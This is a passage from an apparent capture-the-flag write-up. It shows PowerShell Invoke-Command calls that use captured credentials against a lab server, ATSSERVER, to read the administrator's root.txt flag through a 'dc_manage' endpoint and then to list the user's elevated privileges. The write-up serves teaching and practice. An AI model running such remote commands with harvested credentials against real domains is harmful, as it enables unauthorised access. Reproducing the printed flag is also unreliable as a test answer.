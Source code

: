 That’s actually enough to read `root.txt`:

```

PS C:\Utils> Invoke-Command -ScriptBlock { cat \users\administrator\desktop\root.txt  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
5a14532a55ecc6c7cf9faa6f3f6317b5

```

### Shell

From here, it should be possible to get a shell. As a member of `Site_Admin`, awallace can now connect without the `dc_manage` configuration, opening all sorts of commands and privileges:

```

PS C:\Utils> Invoke-Command -ScriptBlock { whoami /priv  } -ComputerName ATSSERVER -Credential $cred

PRIVILEGES INFORMATION                                                                                   
----------------------

Privilege Name                            Description                                                        State                                                                                                 
========================================= ================================================================== =======                                                                                               
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled                                                                                               
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled    
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled                                                                                               
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled                                                                                               
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled                                                                                               
SeBackupPrivilege                         Back up files and directories                                      Enabled                                                                                               
SeRestorePrivilege                        Restore files and directories                                      Enabled                                                                                               
SeShutdownPrivilege                       Shut down the system                                               Enabled                                                                                               
```